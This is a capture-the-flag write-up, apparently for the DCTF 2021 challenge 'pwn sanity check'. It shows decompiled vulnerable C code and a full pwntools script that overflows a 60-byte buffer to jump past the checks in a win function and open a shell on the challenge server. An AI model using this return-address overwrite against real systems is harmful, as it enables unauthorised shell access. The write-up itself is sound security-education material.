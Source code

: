Preface  
-------

We get a simple binary, with simple input and output.

Overview  
--------

Looking at the binary in *ghidra*, I found these functions.

```C  
void vuln(void)  
{  
 char local_48 [60];  
 int local_c;  
  
 puts("tell me a joke");  
 fgets(local_48,0x100,stdin);  
 if (local_c == -0x21523f22) {  
   puts("very good, here is a shell for you. ");  
   shell();  
 }  
 else {  
   puts("will this work?");  
 }  
 return;  
}

void shell(void)  
{  
 puts("spawning /bin/sh process");  
 puts("wush!");  
 printf("$> ");  
 puts("If this is not good enough, you will just have to try harder :)");  
 return;  
}

void win(int param_1,int param_2)  
{  
 puts("you made it to win land, no free handouts this time, try harder");  
 if (param_1 == -0x21524111) {  
   puts("one down, one to go!");  
   if (param_2 == 0x1337c0de) {  
     puts("2/2 bro good job");  
     system("/bin/sh");  
                   /* WARNING: Subroutine does not return */  
     exit(0);  
   }  
 }  
 return;  
}  
```

From looking at these functions I knew, setting the variable isn't the correct
way, because it wasn't a real shell.

But I can jump to win, for a long time I tried to ret2win with all the
parameters set. But then I realized, I could just skip the checks.  
Because if I jump to the offset of win, where the calls where over, I could
just ignore the setting of any parameters and get the shell.

My final exploit script was:

```Python  
#!/usr/bin/env python3  
from pwn import *

context.arch = 'amd64'  
#context.log_level = "DEBUG"  
context.log_level = "INFO"

context.terminal = ['xfce4-terminal', '-x', 'sh', '-c']

vulnerable = './pwn_sanity_check'  
elf = ELF(vulnerable)

#p = process( vulnerable )  
p = remote("dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io", 7480)

p.readuntil('tell me a joke')

ret_offset = 72  
# 60 for buffer 4 for integer and 8 for RBP

win_function = elf.symbols['win']  
win_function_shell = win_function + 0x44 # Skipping all parameter checks

p.sendline(b'\x41'*(ret_offset) + p64(win_function_shell))

p.readuntil('will this work')  
p.read( 2048, timeout=1 ) # cleanup output  
p.interactive()  
```

The complete flag was:  
```dctf{Ju5t_m0v3_0n}```

Original writeup (https://w0y.at/writeup/2021/05/17/dctf-2021-pwn-sanity-
check.html).